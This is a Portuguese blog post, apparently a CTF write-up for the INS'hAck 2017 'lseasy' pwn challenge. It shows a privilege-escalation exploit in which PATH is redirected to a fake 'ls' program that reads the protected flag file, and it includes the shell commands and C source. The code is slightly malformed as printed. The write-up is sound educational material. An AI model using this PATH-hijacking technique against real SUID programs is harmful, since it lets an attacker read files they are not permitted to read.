 ```yaml
---
layout: post
title: PWN1 - Explorando system() call [INS'hAck 2017] Write-up
date: 2017-04-18 19:47
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

O <a href="https://ctftime.org/event/444">Ins'hAck</a> foi um ctf online que ocorreu do dia 6 de abril ao dia 9. Teve uns desafios bem interessantes e foi bem organizado pelo time <a href="https://ctftime.org/team/11869">InSecurity</a>.

Este write-up é referente ao primeiro nível de pwn e foi simples caso você já soubesse o caminho. Mas, sendo o noob que sou, demorei um pouco para sacar onde estava a falha e quando resolvi o chall fiquei feliz em ter aprendido algo novo.

A descrição era a seguinte:

<blockquote>My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh you_ssh_user@pwn1.ctf.insecurity-insa.fr

Note: Please see your profile to know you SSH creds.</blockquote>

Que em português seria:

<blockquote>Meu chuveiro não quer me dar água quente :/ talvez seja um hacker? :0 Você pode ajudar?</blockquote>

E logo abaixo as instruções para conectar ao ssh do ctf que ficou offline desde o fim da competição.

Mas não se desespere. Ainda é possível tentar resolver pegando <a href="https://github.com/HugoDelval/inshack-2017/raw/master/challenges/pwn/lseasy-75/public-files/lseasy.zip">neste link</a> uma cópia do desafio.

Dentro do arquivo zipado há um elf executável chamado <strong><em>lseasy</em></strong> acompanhado do seu código fonte <em><strong>vuln.c</strong></em>. Estes dois arquivos podiam ser encontrados dentro do servidor junto com o arquivo flag.txt. Obviamente este arquivo não tinha permissões de leitura para meu usuário atual, mas podia ser lido pelo usuário que <strong><em>lseasy</em></strong> rodava. É o tipo de coisa padrão nesses desafios xpl/pwn. O objetivo é explorar o desafio e seus privilégios para, de alguma forma, ler o arquivo da flag.

Ao se executar o binário pela primeira vez, se percebe que ele apenas lista os arquivos do diretório atual. Uma olhada no código fonte<strong><em> </em></strong>confirma que essa é sua única função:

<script src="https://gist.github.com/anonymous/537b9729bb928e98d5af400aae650168.js"></script>

Não há muito o que explicar. Perdi tempo tentando variadas maneiras ler a flag. Logo estava lendo a <a href="http://man7.org/linux/man-pages/man3/system.3.html">manpage da função system</a>. Parecia ser a única coisa restante a ser explorada. Na seção de notas encontrei um aviso que dizia para não usa-la em programas SUID porque valores das variáveis de ambiente podiam ser usados para subverter o sistema. Ok, é exatamente o objetivo. Mas a nota não dizia como fazer isso.

Pesquisei por "exploit system call" no google e encontrei um<a href="https://www.go4expert.com/articles/exploit-c-t24920/"> tutorial mastigado</a> de como explorar um programa de exemplo exatamente igual ao do chall.

O segredo é que system vai procurar pelo binário nos caminhos contidos na <a href="https://www.vivaolinux.com.br/artigo/O-que-e-PATH-como-funciona-e-como-trabalhar-com-ele">variável de sistema <strong>PATH</strong></a>. E, como nada impede a alteração desta variável, é possível adicionar um caminho arbitrário.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ PATH=$HOME/Docs/ctf/inshack2017/pwn1:$PATH
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/home/brenno/Docs/ctf/inshack2017/pwn1:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

O primeiro comando printa minha variável PATH atual, no segundo eu adiciono o caminho "$HOME/Docs/ctf/inshack2017/pwn1" no ínicio da varíavel de sistema e o terceiro printa o conteúdo alterado.

Agora, sempre que system for procurar o binário de ls, vai olhar primeiro dentro de "$HOME/Docs/ctf/inshack2017/pwn1". E é onde criei um ls mais coerente com meu objetivo.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ cat ls.c
#include stdio.h

int main() {
system(cat flag.txt);
return 0;
}
^C
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ gcc ls.c -o ls
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ ./lseasy
The content of the current folder is :
INSA{SySt3m_1s_3v1l_-}
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$
```

Na primeira parte criei um simples programa em C usando a mesma função system para executar o comando <strong>cat flag.txt</strong>. Então o compilei dando o nome de ls e, ao executar o binário lseasy pode-se ver que ao invés de imprimir o conteúdo da pasta, ele imprime o conteúdo de flag.txt.
